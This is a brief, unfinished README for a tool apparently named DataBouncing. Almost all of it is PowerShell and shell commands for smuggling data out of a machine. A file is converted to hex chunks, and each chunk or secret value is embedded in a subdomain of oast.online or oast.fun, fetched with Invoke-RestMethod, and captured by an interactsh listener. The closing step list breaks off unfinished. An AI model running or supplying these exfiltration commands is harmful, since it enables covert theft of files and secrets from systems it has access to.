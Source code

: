 # DataBouncing

Use this [BUILD](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh).

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```


`$hex = Convert-FileToHexChunks -FilePath .\AST-Test.txt`

```
foreach ($i in $x.PSObject.Properties) {echo $i.Value}
```


```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```

```
foreach ($i in $x.PSObject.Properties) {$secret = $i.Value;irm "xregex.$secret.cln6u1qilvdt6859fml0quuh98ohq8huk.oast.fun"}
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```

